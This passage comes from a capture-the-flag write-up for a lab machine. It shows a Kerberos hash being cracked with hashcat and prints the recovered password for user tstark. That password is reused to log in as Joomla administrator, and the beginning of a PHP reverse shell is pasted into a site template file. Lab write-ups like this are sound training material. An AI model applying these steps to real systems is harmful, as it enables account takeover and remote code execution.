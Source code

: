 
![](https://i.imgur.com/yCI6rfO.png)



I also found the common name for the hash which is user `tstark`



![](https://i.imgur.com/pnmEjNt.png)


We can then go ahead and crack this hash with hashcat but first of all add the prefix, `$krb5pa$18$tstark$OFFICE.HTB$` to the front of the hash, so it can be identified by hashcat, you can also use this [article](https://vbscrub.com/2020/02/27/getting-passwords-from-kerberos-pre-authentication-packets/) to learn more


```
❯ hashcat -m 19900 hash.txt /usr/share/wordlists/rockyou.txt -O
```


![](https://i.imgur.com/YNpeiCc.png)


```
tstark:playboy69
```


We can verify that this password works using crackmapexec also

![](https://i.imgur.com/fmuXJel.png)



Also tried this password out on the Joomla login page and it worked for the user **administrator** 


![](https://i.imgur.com/kdVHpTu.png)



Then navigate to **system** menu and click **Site Templates**


![](https://i.imgur.com/YnmrY5e.png)

Select "**Cassiopeia Details and Files**" 



![](https://i.imgur.com/uhpu29A.png)


We can then go ahead and edit any PHP file on this template by replacing the contents with the below contents


```pHP
<?php
// Copyright (c) 2020 Ivan Sincek
// v2.3
// Requires PHP v5.0.0 or greater.
// Works on Linux OS, macOS, and Windows OS.
// See the original script at https://github.com/pentestmonkey/php-reverse-shell.
class Shell {
    private $addr  = null;
    private $port  = null;
    private $os    = null;
    private $shell = null;
    private $descriptorspec = array(
        0 => array('pipe', 'r'), // shell can read from STDIN
        1 => array('pipe', 'w'), // shell can write to STDOUT
        2 => array('pipe', 'w')  // shell can write to STDERR
    );
```